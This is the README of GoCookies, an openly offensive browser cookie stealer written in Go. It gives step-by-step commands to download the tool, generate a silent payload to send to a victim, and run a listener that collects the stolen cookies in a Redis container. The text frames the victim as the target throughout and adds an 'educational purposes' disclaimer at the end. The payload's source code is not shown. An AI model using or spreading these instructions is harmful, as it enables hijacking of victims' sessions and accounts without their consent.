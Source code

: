 

# GoCookies - A Browser Cookie Stealer Written in Go

GoCookies is a tool for stealing cookies from a victim's browser and sending them to an attacker's machine. It is written in Go and has three components: `gocookies`, `gocookies-generate`, and `gocookies-listener`.

The `gocookies-generate` component generates a payload that can be sent to the victim. This payload steals the cookies from the victim's browser and sends them to the `gocookies-listener` component running on the attacker's machine. The `gocookies-listener` component receives the cookies and stores them in a Redis database running in a Docker container.

## Prerequisites

Before using GoCookies, you will need to have the following installed:

- Docker
- Go
- Git

## Getting Started

To get started with GoCookies, follow these steps:

1. Clone the repository:

```
git clone https://github.com/simonfalke-01/gocookies.git
```

2. Download the latest release:

For Linux:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-linux -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-linux -o listener && chmod +x generate listener
```

For macOS:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-macos -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-macos -o listener && chmod +x generate listener
```

For Windows:  
Idk if it even works.

Alternatively, you can download the binaries manually from the [releases](https://github.com/simonfalke-01/gocookies/releases/latest/) page.

## Generating a Payload

To generate a payload, use the `gocookies-generate` component. This component requires the following arguments:

- `-h` - The host of the listener.
- `-p` - The port of the listener.
- `-d` - The path of the `gocookies` directory.
- `-v` (optional) - Whether to print verbose output (by default, the payload does not print any output).

Example:

```
./generate -h localhost -p 8091 -d ~/gocookies/gocookies
```

Here, `~/gocookies` is the cloned repository.

Once the payload is generated, you can send it to the victim.

## Setting up the Listener

Before running the listener, ensure that the docker daemon is running. Then, pull the `redis` image:

```
docker image pull redis:alpine3.18
```

To set up the listener, use the `gocookies-listener` component. This component requires the following arguments:

- `-r` - The port on which Redis will be running.
- `-p` - The port on which the listener will be running.
- `-e` (optional) - Whether to use an existing Redis container (if not specified, a new Redis container will be created). If specified, `-r` will be the port of the existing Redis container.

Example:

```
./listener -r 8090 -p 8091
```

Once the listener is set up, you can wait for the victim to connect to it and send the cookies.

## Building from Source

To build `gocookies-generate` from source, navigate to the `gocookies-generate` directory and run:

```
go build
```

To build `gocookies-listener` from source, navigate to the `gocookies-listener` directory and run:

```
go build
```

## Disclaimer

This tool is for educational purposes only. Using this tool without the consent of the victim is illegal and unethical. The author of this tool is not responsible for any illegal or unethical use of this tool.
